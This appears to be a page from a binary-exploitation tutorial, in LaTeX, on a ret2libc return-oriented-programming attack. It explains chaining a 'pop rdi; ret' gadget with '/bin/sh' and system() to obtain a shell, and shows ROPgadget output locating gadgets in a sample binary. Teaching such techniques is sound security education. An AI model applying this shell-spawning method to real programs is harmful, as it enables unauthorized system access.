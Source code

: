 \documentclass{article}
\begin{document}
\begin{enumerate}
    \item Any location in memory containing \texttt{pop rdi} followed by
        \texttt{ret}
    \item The location of ``/bin/sh''
    \item The location of \texttt{system()}
\end{enumerate}

When our input is crafted as described above, the program will first
\texttt{pop} the location of ``/bin/sh'' into \texttt{rdi}. It will then execute
the following \texttt{ret} instruction, which will redirect execution to
\texttt{system()} while ``/bin/sh'' is in \texttt{rdi} as the argument, granting
us a shell.

The only new task is to find the location of \texttt{pop rdi; ret}. This snippet
of code is called a \emph{gadget}. Although it is possible to do this manually by
searching for all of the \texttt{ret} instructions and searching backwards for
\texttt{pop} instructions, it is much easier to use an automated tool like
ROPgadget, and \texttt{grep} through the results.

\begin{lstlisting}
> ROPgadget --binary ret2libc | grep "pop rdi"
0x0000000000430758 : pop rdi ; adc byte ptr [rdx + 8], dh ; movaps xmmword ptr [rdi], xmm4 ; jmp r9
0x000000000042c3fd : pop rdi ; add eax, dword ptr [rax] ; add byte ptr [rax - 0x7d], cl ; ret 0x4910
0x0000000000432179 : pop rdi ; in al, dx ; mov qword ptr [rdi - 0xc], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x0000000000431f89 : pop rdi ; in eax, dx ; mov qword ptr [rdi - 0xb], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x00000000004bbcde : pop rdi ; insd dword ptr [rdi], dx ; test eax, 0x7d4c8c5d ; ret 0xd8f
0x0000000000441d82 : pop rdi ; jmp rax
0x00000000004baca1 : pop rdi ; mov dh, 0x4e ; ret 0x474c
0x000000000049e88e : pop rdi ; mov rax, rbx ; pop rbx ; pop rbp ; pop r12 ; ret
0x0000000000431da9 : pop rdi ; out dx, al ; mov qword ptr [rdi - 0xa], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x0000000000431bd9 : pop rdi ; out dx, eax ; mov qword ptr [rdi - 9], r8 ; mov dword ptr [rdi - 4], edx ; ret
0x0000000000431cd5 : pop rdi ; out dx, eax ; mov qword ptr [rdi - 9], rcx ; mov byte ptr [rdi - 1], dl ; ret
0x0000000000431c21 : pop rdi ; out dx, eax ; mov qword ptr [rdi - 9], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x000000000040214a : pop rdi ; pop rbp ; ret
0x0000000000401526 : pop rdi ; ret
0x000000000047b90d : pop rdi ; std ; inc dword ptr [rbp - 0x76b48a40] ; ret
> 
\end{lstlisting}
\end{document}
